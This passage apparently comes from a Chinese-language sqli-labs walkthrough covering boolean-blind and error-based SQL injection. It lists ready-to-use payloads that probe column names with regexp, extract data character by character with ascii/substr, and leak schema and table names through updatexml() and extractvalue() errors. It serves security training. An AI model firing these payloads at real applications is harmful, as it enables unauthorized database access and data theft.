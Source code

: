 

或：

判断选择的users表中是否有us**的列：

>   id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^us[a-z]' limit 0,1)--+

是否有username列：

>   id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^username' limit 0,1)--+

同样搞出其他的......

4.获取内容：

假设得到id和email_id两个列

先查个数：

>   id=1' and (select count(*) from security.users.emails)=1--+

之后查长度：

>   id=1' and (select length(email_id) from security.users.emails)=1--+

最后是内容：

>   id=1'and ascii(substr((select email_id from emails limit 0,1),1,1))>'a'--+

### 基于报错的盲注

由于源代码中出现了`print_r(mysql_error)`，导致报错注入的可行，若是源码中未将错误信息打印，则不能进行报错注入

基于报错的有很多，这里写两个：

几个有用函数：

-   updatexml()：对xml进行查询和修改
-   extractvalue()：对xml进行查询和修改，最大长度为32，要获取后面的，使用substring()

比如：

**updatexml():**

>   id=1' and UpdateXml(1,concat(0x7e,(SELECT schema_name from information_schema.schemata limit 1,1),0x7e),1)--+

>   id=1' and UpdateXml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)--+

等等等......

**extractvalue():**

>   id=1' and extractvalue(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))--+

等等等，和正常注入都一样了......

## Less6
